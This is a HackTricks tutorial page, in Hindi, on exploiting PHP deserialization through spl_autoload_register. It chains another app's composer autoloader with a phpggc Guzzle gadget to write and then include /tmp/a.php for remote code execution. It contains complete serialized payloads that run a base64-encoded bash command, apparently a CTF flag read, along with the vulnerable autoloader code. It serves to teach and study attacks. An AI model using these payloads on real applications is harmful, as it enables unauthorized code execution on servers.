 # PHP - Deserialization + Autoload Classes

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

पहले, आपको [**Autoloading Classes**](https://www.php.net/manual/en/language.oop5.autoload.php) की जांच करनी चाहिए।

## PHP deserialization + spl\_autoload\_register + LFI/Gadget

हम एक ऐसी स्थिति में हैं जहाँ हमें **एक वेब ऐप में PHP deserialization** मिली है जिसमें **कोई** लाइब्रेरी **`phpggc`** के अंदर गैजेट के लिए कमजोर नहीं है। हालाँकि, उसी कंटेनर में एक **अलग कंपोज़र वेब ऐप था जिसमें कमजोर लाइब्रेरी थी**। इसलिए, लक्ष्य था **दूसरे वेब ऐप के कंपोज़र लोडर को लोड करना** और इसका दुरुपयोग करना **एक गैजेट लोड करने के लिए जो उस लाइब्रेरी का दुरुपयोग करेगा** जो deserialization के लिए कमजोर है।

चरण:

* आपने **deserialization** पाया है और वर्तमान ऐप कोड में **कोई गैजेट नहीं है**
* आप **`spl_autoload_register`** फ़ंक्शन का दुरुपयोग कर सकते हैं जैसे कि निम्नलिखित **किसी भी स्थानीय फ़ाइल को लोड करने के लिए जिसमें `.php` एक्सटेंशन है**
* इसके लिए आप एक deserialization का उपयोग करते हैं जहाँ क्लास का नाम **`$name`** के अंदर होगा। आप **serialized object** में क्लास नाम में "/" या "." का उपयोग नहीं कर सकते, लेकिन **कोड** **underscores** ("\_") को **slashes** ("/") के लिए **बदल रहा है**। इसलिए एक क्लास नाम जैसे `tmp_passwd` को `/tmp/passwd.php` में परिवर्तित किया जाएगा और कोड इसे लोड करने की कोशिश करेगा।\
एक **गैजेट उदाहरण** होगा: **`O:10:"tmp_passwd":0:{}`**
```php
spl_autoload_register(function ($name) {

if (preg_match('/Controller$/', $name)) {
$name = "controllers/${name}";
} elseif (preg_match('/Model$/', $name)) {
$name = "models/${name}";
} elseif (preg_match('/_/', $name)) {
$name = preg_replace('/_/', '/', $name);
}

$filename = "/${name}.php";

if (file_exists($filename)) {
require $filename;
}
elseif (file_exists(__DIR__ . $filename)) {
require __DIR__ . $filename;
}
});
```
{% hint style="success" %}
यदि आपके पास **फाइल अपलोड** है और आप **`.php` एक्सटेंशन** वाली फाइल अपलोड कर सकते हैं, तो आप इस कार्यक्षमता का **सीधे दुरुपयोग** कर सकते हैं और पहले से ही RCE प्राप्त कर सकते हैं।
{% endhint %}

मेरे मामले में, मेरे पास ऐसा कुछ नहीं था, लेकिन **एक ही कंटेनर** के अंदर एक और कंपोजर वेब पेज था जिसमें एक **लाइब्रेरी `phpggc` गैजेट के लिए संवेदनशील** थी।

* इस अन्य लाइब्रेरी को लोड करने के लिए, सबसे पहले आपको **उस अन्य वेब ऐप का कंपोजर लोडर लोड करना होगा** (क्योंकि वर्तमान एप्लिकेशन का लोडर दूसरे की लाइब्रेरी तक पहुंच नहीं पाएगा।) **एप्लिकेशन का पथ जानकर**, आप इसे बहुत आसानी से प्राप्त कर सकते हैं: **`O:28:"www_frontend_vendor_autoload":0:{}`** (मेरे मामले में, कंपोजर लोडर `/www/frontend/vendor/autoload.php` में था)
* अब, आप **अन्य ऐप का कंपोजर लोडर लोड** कर सकते हैं, तो अब **`phpgcc`** **पेलोड** उत्पन्न करने का समय है। मेरे मामले में, मैंने **`Guzzle/FW1`** का उपयोग किया, जिसने मुझे **फाइल सिस्टम के अंदर कोई भी फाइल लिखने** की अनुमति दी।
* नोट: **उत्पन्न गैजेट काम नहीं कर रहा था**, इसके काम करने के लिए मैंने उस पेलोड **`chain.php`** को phpggc में **संशोधित** किया और **क्लास के सभी गुणों** को **प्राइवेट से पब्लिक** में सेट किया। यदि नहीं, तो स्ट्रिंग को डीसिरियलाइज़ करने के बाद, बनाए गए ऑब्जेक्ट्स के गुणों में कोई मान नहीं था।
* अब हमारे पास **अन्य ऐप का कंपोजर लोडर लोड करने का तरीका है** और एक **phpggc पेलोड है जो काम करता है**, लेकिन हमें **इसे उसी अनुरोध में करना होगा ताकि लोडर तब लोड हो जब गैजेट का उपयोग किया जाए**। इसके लिए, मैंने दोनों ऑब्जेक्ट्स के साथ एक सीरियलाइज्ड एरे भेजा जैसे:
* आप देख सकते हैं **पहले लोडर लोड होते हुए और फिर पेलोड** 

{% code overflow="wrap" %}
```php
a:2:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}}
```
{% endcode %}

* अब, हम **एक फ़ाइल बना और लिख सकते हैं**, हालाँकि, उपयोगकर्ता **वेब सर्वर के अंदर किसी भी फ़ोल्डर में नहीं लिख सका**। तो, जैसा कि आप पेलोड में देख सकते हैं, PHP **`system`** को कुछ **base64** के साथ कॉल कर रहा है जो **`/tmp/a.php`** में बनाया गया है। फिर, हम **पहले प्रकार के पेलोड** का **फिर से उपयोग** कर सकते हैं जिसे हमने LFI के रूप में अन्य वेब ऐप के कंपोज़र लोडर को लोड करने के लिए **जनित `/tmp/a.php`** फ़ाइल लोड करने के लिए उपयोग किया था। बस इसे डेसिरियलाइजेशन गैजेट में जोड़ें:&#x20;

{% code overflow="wrap" %}
```php
a:3:{s:5:"Extra";O:28:"www_frontend_vendor_autoload":0:{}s:6:"Extra2";O:31:"GuzzleHttp\Cookie\FileCookieJar":4:{s:7:"cookies";a:1:{i:0;O:27:"GuzzleHttp\Cookie\SetCookie":1:{s:4:"data";a:3:{s:7:"Expires";i:1;s:7:"Discard";b:0;s:5:"Value";s:56:"<?php system('echo L3JlYWRmbGFn | base64 -d | bash'); ?>";}}}s:10:"strictMode";N;s:8:"filename";s:10:"/tmp/a.php";s:19:"storeSessionCookies";b:1;}s:6:"Extra3";O:5:"tmp_a":0:{}}
```
{% endcode %}

**पेलोड का सारांश**

* **एक ही कंटेनर में एक अलग वेब ऐप का कंपोजर ऑटोलोड लोड करें**
* **एक phpggc गैजेट लोड करें** ताकि दूसरे वेब ऐप की एक लाइब्रेरी का दुरुपयोग किया जा सके (प्रारंभिक वेब ऐप जो डेसिरियलाइजेशन के लिए संवेदनशील था, उसकी लाइब्रेरी में कोई गैजेट नहीं था)
* गैजेट **/tmp/a.php** में एक PHP पेलोड के साथ एक फ़ाइल बनाएगा जिसमें दुर्भावनापूर्ण कमांड होंगे (वेब ऐप उपयोगकर्ता किसी भी वेब ऐप के किसी भी फ़ोल्डर में लिख नहीं सकता)
* हमारे पेलोड का अंतिम भाग **जनित PHP फ़ाइल को लोड करेगा** जो कमांड निष्पादित करेगा

मुझे **इस डेसिरियलाइजेशन को दो बार कॉल करने की आवश्यकता थी**। मेरे परीक्षण में, पहली बार `/tmp/a.php` फ़ाइल बनाई गई लेकिन लोड नहीं हुई, और दूसरी बार इसे सही ढंग से लोड किया गया।

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
